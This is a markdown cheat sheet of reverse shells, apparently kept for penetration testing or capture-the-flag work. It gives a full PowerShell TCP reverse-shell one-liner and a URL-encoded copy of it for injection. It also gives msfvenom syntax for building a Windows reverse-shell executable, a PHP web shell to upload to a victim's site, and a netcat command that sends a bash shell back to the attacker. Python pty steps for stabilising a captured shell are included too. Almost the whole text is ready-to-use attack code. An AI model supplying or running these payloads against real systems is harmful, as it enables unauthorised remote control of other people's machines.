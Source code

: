 # List of useful shells to keep on hand.

### If python is installed you can make the shell more stable.
* Use Python, Python2 or Python3 as required. ```python -c 'import pty; pty.spawn("/bin/sh")'```
* This allows access to terminal commands. ```export TERM=xterm```
* Background the shell using CTRL+Z. Then in your own terminal enter this ```stty raw -echo; fg``` to turn off terminal echo allowing access to tab autocompletes, the arrow keys, and Ctrl + C and foregrounds the shell.

### Powershell reverse shell. Just need to replace IP and PORT of your choice and copy into cmd.exe or another method of executing commands.
```
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

### URL encoded reverse shell for Windows systens. IP and Port need to be changed.
```
powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%27<IP>%27%2C<PORT>%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22
```

### msfvenom
* ```msfvenom -p <PAYLOAD> <OPTIONS>``` Standard syntax.
* ```<OS>/<arch>/<payload>``` Basic convention.
* ```msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>``` Windows x64 Reverse Shell in an exe format (staged).

### Simple example of a PHP reverse shell.
* Start you listener. ```nc -lvnp <PORT>```
* Save this to a file then upload to a viticim webpage. ```<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>```
* Within the address bar enter the following. ```<LOCATION OF FILE>/shell.php?cmd=nc <IP> <PORT> -e /bin/bash```
